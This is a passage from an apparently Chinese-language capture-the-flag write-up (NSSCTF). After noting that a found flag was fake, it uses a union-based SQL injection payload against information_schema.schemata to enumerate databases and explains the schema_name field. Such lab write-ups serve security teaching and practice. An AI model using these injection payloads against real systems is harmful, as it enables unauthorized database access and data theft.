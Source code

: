 ![image-20250807093120573](./NSSCTF-4.assets/image-20250807093120573.png)

可恶，是假的



看来不在ctf库中

## sql查找所有数据库

**再次查找所有数据库**

```
-1)))))) union select 1,schema_name from information_schema.schemata--+
```

**`schema_name` 字段**

`schema_name` 是 `schemata` 表中的一个字段，表示**数据库的名称**。

执行：

```
SELECT schema_name FROM information_schema.schemata;
```

![image-20250807093433941](./NSSCTF-4.assets/image-20250807093433941.png)

